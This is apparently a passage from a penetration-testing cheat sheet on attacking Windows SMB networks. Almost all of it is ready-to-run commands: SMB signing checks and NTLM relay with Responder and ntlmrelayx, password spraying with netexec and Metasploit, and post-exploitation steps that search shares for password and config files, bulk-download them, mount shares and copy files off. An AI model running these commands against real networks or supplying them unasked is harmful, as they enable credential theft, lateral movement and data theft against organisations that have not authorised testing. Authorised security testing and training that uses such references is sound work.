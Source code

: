 ### 2. SMB Relay Attacks
```bash
# Check for SMB signing
nmap --script smb-security-mode -p 139,445 <target>
netexec smb <target> --gen-relay-list relay_targets.txt

# Responder + ntlmrelayx
responder -I <interface> -rdwv
ntlmrelayx.py -tf relay_targets.txt -smb2support
```

### 3. Password Spraying
```bash
# Spray passwords across users
netexec smb <target> -u users.txt -p 'Password123!' --continue-on-success
netexec smb <target> -u users.txt -p passwords.txt --continue-on-success

# Metasploit
use auxiliary/scanner/smb/smb_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

---

## Post-Exploitation Techniques

### 1. File Search & Download
```bash
# Search for interesting files
smbclient //<target>/<share> -N -c "recurse on; ls *pass*"
smbclient //<target>/<share> -N -c "recurse on; ls *config*"

# Download everything
smbmap -H <target> -u <username> -p <password> -R --download
```

### 2. Share Mounting (Linux)
```bash
# Mount SMB share
mkdir /mnt/smb
mount -t cifs //<target>/<share> /mnt/smb -o username=<user>,password=<pass>

# Browse mounted share
find /mnt/smb -type f -name "*.txt" 2>/dev/null
grep -r "password" /mnt/smb/ 2>/dev/null
```

### 3. Windows Post-Exploitation
```powershell
# From Evil-WinRM or cmd shell
net share                    # List local shares
net use                      # Show mapped drives
dir \\<target>\<share>       # Browse remote share

# Map network drive
net use Z: \\<target>\<share> /user:<username> <password>

# Copy files
copy "\\<target>\<share>\file.txt" C:\temp\
xcopy "\\<target>\<share>\*" C:\temp\ /s /e
```